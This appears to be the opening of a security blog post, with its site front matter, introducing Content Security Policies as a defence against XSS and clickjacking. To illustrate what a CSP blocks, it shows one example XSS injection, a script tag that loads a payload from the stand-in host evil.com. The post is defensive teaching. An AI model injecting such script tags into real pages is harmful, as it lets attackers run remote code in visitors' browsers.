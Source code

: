 ```yaml
---
title: "Implementing Content Security Policies, The Easy Way."
date: 2021-05-04
# weight: 1
# aliases: ["/first"]
tags: ["playwright", "js", "content security policy", "appsec" ]
author: "Kevin Pham"
# author: ["Me", "You"] # multiple authors
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "CSP's are a pain to write for legacy sites, but it doesn't have to be."
canonicalURL: "https://deoxy.net/posts/csp"
disableHLJS: false # to disable highlightjs
disableShare: true
disableHLJS: true
enableMermaid: true
enableAsciiCinema: false
enableECharts: false
hideSummary: false
searchHidden: false
ShowReadingTime: false
ShowBreadCrumbs: false
ShowPostNavLinks: false
cover:
    image: "/posts/csp/csp.gif" # image path/url
    alt: "Generating a CSP using a playwright script" # alt text
    caption: "" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: false # only hide on current single page
editPost:
    URL: "https://gitlab.com/deoxykev/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


# What's a CSP? 
One of the mitigating defenses for [XSS attacks](https://portswigger.net/web-security/cross-site-scripting) and [Clickjacking attacks](https://portswigger.net/web-security/clickjacking) is a good Content Security Policy (CSP). While not a pancea, it can effectively limit the severity of any exploits by constraining the XSS payload size to the injection window, which is typically limited to a few characters. Instead of externally loading a payload like:
```js
<script src="https://evil.com/payload.js"/>
```
the entire payload must be encoded in the script evaluation window, effectively preventing nasty frameworks like [BeEF](https://beefproject.com/) from being loaded.

